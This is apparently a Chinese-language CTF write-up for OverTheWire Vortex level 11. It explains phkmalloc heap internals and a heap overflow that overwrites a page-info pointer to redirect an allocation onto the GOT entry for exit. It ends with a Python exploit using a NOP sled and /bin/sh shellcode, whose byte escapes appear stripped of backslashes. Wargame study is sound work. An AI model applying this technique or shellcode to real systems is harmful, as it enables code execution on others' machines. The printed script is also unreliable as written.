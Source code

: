 ```yaml
---
title: OverTheWire Vertex Level 11 → Level 12
author: Ripples
layout: post
permalink: /overthewire-vertex-level-11/
views:
  - 224
categories:
  - CTF
tags:
  - buffer overflow
  - vortex
  - wargame
  - WriteUp
---
```

<p style="text-indent: 2em;">
  这应该是第二次看到堆溢出的题，上次是babyfirst-heap，但不得不说，堆溢出真蛋疼，堆管理方法就一大堆，要想做堆溢出必须得先搞清楚其用的堆。
</p>

<p style="text-indent: 2em;">
  原题参见<a href="http://overthewire.org/wargames/vortex/vortex11.html" target="_blank">这里</a>。从看到那一堆参考资料和长长的phkmalloc.c起就感觉整个世界都不好了。。。
</p>

<p style="text-indent: 2em;">
  不过东西虽多，搞清楚关键几点这题就能解决了。
</p>

<p style="text-indent: 2em;">
  首先讲下phkmalloc的几个概念：
</p>

<!--more-->

<ul class=" list-paddingleft-2" style="list-style-type: disc;">
  <li>
    <p style="text-indent: 2em;">
      malloc_pagesize：内存页一页的大小
    </p>
  </li>

  <li>
    <p style="text-indent: 2em;">
      malloc_pageshift：满足1 <<&nbsp;malloc_pageshift =&nbsp;<span style="text-indent: 32px;">malloc_pagesize</span>
    </p>
  </li>

  <li>
    <p style="text-indent: 2em;">
      <span style="text-indent: 32px;">malloc_pagemask：为malloc_pagesize &#8211; 1，从而使得addr % malloc_pagesize转化为addr & malloc_pagemask</span>
    </p>
  </li>

  <li>
    <p style="text-indent: 2em;">
      <span style="text-indent: 32px;">malloc_origo：整个堆的起始地址 /&nbsp;<span style="text-indent: 32px;">malloc_pagesize，从而使得idx = ( page_address / malloc_pagesize ) &#8211; malloc_origo，idx为堆中页的编号</span></span>
    </p>
  </li>
</ul>

<p style="text-indent: 2em;">
  在phkmalloc中，每一页中的所有chunk大小相同，chunk分成三种大小，大的是指大小超过页大小一半的，中等和小的区别在于，对于中等大小的chunk，其堆头控制信息存储在专门的一个页上，对于小的chunk，其堆头控制信息存储在该chunk所在页。
</p>

<p style="text-indent: 2em;">
  现在让我们看看题目中的程序：
</p>

<pre class="brush:cpp;toolbar:false">#include&nbsp;&lt;stdio.h&gt;
#include&nbsp;&lt;string.h&gt;

int&nbsp;main(int&nbsp;argc,&nbsp;char&nbsp;**argv)&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;char&nbsp;*p;
&nbsp;&nbsp;&nbsp;&nbsp;char&nbsp;*q;
&nbsp;&nbsp;&nbsp;&nbsp;char&nbsp;*r;
&nbsp;&nbsp;&nbsp;&nbsp;char&nbsp;*s;
&nbsp;&nbsp;&nbsp;&nbsp;if&nbsp;(argc&nbsp;&lt;&nbsp;3)
&nbsp;&nbsp;&nbsp;&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;exit(0);
&nbsp;&nbsp;&nbsp;&nbsp;}
&nbsp;&nbsp;&nbsp;&nbsp;p&nbsp;=&nbsp;(char&nbsp;*)&nbsp;malloc(0x800);
&nbsp;&nbsp;&nbsp;&nbsp;q&nbsp;=&nbsp;(char&nbsp;*)&nbsp;malloc(0x10);
&nbsp;&nbsp;&nbsp;&nbsp;r&nbsp;=&nbsp;(char&nbsp;*)&nbsp;malloc(0x800);
&nbsp;&nbsp;&nbsp;&nbsp;strcpy(r&nbsp;,&nbsp;argv[1]);
&nbsp;&nbsp;&nbsp;&nbsp;s&nbsp;=&nbsp;(char&nbsp;*)&nbsp;malloc(0x10);
&nbsp;&nbsp;&nbsp;&nbsp;strncpy(s&nbsp;,&nbsp;argv[2],&nbsp;0xf);
&nbsp;&nbsp;&nbsp;&nbsp;exit(0);
}</pre>

<p style="text-indent: 2em;">
  程序一共分配了4次，两个0x<a></a>800（中等chunk），两个0x<a></a>10（小chunk），通过gdb观察一下分配出来的内存，发现分别为p = 0x804E000、q = 0x<span style="text-indent: 32px;">804F030</span>、r = 0x<span style="text-indent: 32px;">804E800</span>、s = 0x804F040，我们很明显可以看出，strcpy的时候，我们可以通过r，覆盖q所在页上的堆头信息，堆头信息结构：
</p>

<pre class="brush:cpp;toolbar:false">struct&nbsp;pginfo&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;struct&nbsp;pginfo&nbsp;&nbsp;&nbsp;*next;&nbsp;&nbsp;/*&nbsp;next&nbsp;on&nbsp;the&nbsp;free&nbsp;list&nbsp;*/
&nbsp;&nbsp;&nbsp;&nbsp;void&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;*page;&nbsp;&nbsp;/*&nbsp;Pointer&nbsp;to&nbsp;the&nbsp;page&nbsp;*/
&nbsp;&nbsp;&nbsp;&nbsp;u_short&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;size;&nbsp;&nbsp;&nbsp;/*&nbsp;size&nbsp;of&nbsp;this&nbsp;page&#39;s&nbsp;chunks&nbsp;*/
&nbsp;&nbsp;&nbsp;&nbsp;u_short&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;shift;&nbsp;&nbsp;/*&nbsp;How&nbsp;far&nbsp;to&nbsp;shift&nbsp;for&nbsp;this&nbsp;size&nbsp;chunks&nbsp;*/
&nbsp;&nbsp;&nbsp;&nbsp;u_short&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;free;&nbsp;&nbsp;&nbsp;/*&nbsp;How&nbsp;many&nbsp;free&nbsp;chunks&nbsp;*/
&nbsp;&nbsp;&nbsp;&nbsp;u_short&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;total;&nbsp;&nbsp;/*&nbsp;How&nbsp;many&nbsp;chunk&nbsp;*/
&nbsp;&nbsp;&nbsp;&nbsp;u_int&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;bits[1];&nbsp;/*&nbsp;Which&nbsp;chunks&nbsp;are&nbsp;free&nbsp;*/
};</pre>

<p style="text-indent: 2em;">
  在这里，我们需要的是改变s的值，也就是最后一次分配出来的内存地址，这样我们才能在后面的strncpy中修改我们想要修改的位置。然后查看malloc会发现，分配好后返回的指针是(u_char *)bp->page + k，也就是说是由pginfo中的page加上偏移值，那么之前的0x804F040也就是0x804F000+0x<a></a>40，这样，我们只要覆盖掉page，就能够将s改成GOT表的位置，从而在exit(0)的时候获取对程序的控制。
</p>

<p style="text-indent: 2em;">
  objdump查看：
</p>

<pre class="brush:plain;toolbar:false;">080485f0&nbsp;&lt;exit@plt&gt;:
&nbsp;80485f0:	ff&nbsp;25&nbsp;1c&nbsp;c0&nbsp;04&nbsp;08&nbsp;&nbsp;&nbsp;&nbsp;	jmp&nbsp;&nbsp;&nbsp;&nbsp;*0x804c01c
&nbsp;80485f6:	68&nbsp;38&nbsp;00&nbsp;00&nbsp;00&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;	push&nbsp;&nbsp;&nbsp;$0x38
&nbsp;80485fb:	e9&nbsp;70&nbsp;ff&nbsp;ff&nbsp;ff&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;	jmp&nbsp;&nbsp;&nbsp;&nbsp;8048570&nbsp;&lt;_init+0x30&gt;</pre>

<p style="text-indent: 2em;">
  那么我们要将page改为0x804c01c &#8211; 0x<a></a>40 = 0x804bfdc，然后栈底地址为0xffffe000，<span style="text-indent: 2em;">于是乎得到启动程序如下：</span>
</p>

<pre class="brush:python;toolbar:false">#!/usr/bin/env&nbsp;python

import&nbsp;subprocess

addr&nbsp;=&nbsp;&#39;x04xdfxffxff&#39;
got_addr&nbsp;=&nbsp;&#39;xdcxbfx04x08&#39;
shellcode&nbsp;=&nbsp;"jx0bXx991xc9Rh//shh/binx89xe3xcdx80"
subprocess.Popen([&#39;/vortex/vortex11&#39;,&nbsp;&#39;x90&#39;&nbsp;*&nbsp;0x804&nbsp;+&nbsp;got_addr&nbsp;,&nbsp;addr&nbsp;+&nbsp;&#39;x90&#39;&nbsp;*&nbsp;500&nbsp;+&nbsp;shellcode],&nbsp;env&nbsp;=&nbsp;{}).communicate()</pre>

<p style="text-indent: 2em;">
  运行之，成功拿到shell。
</p>
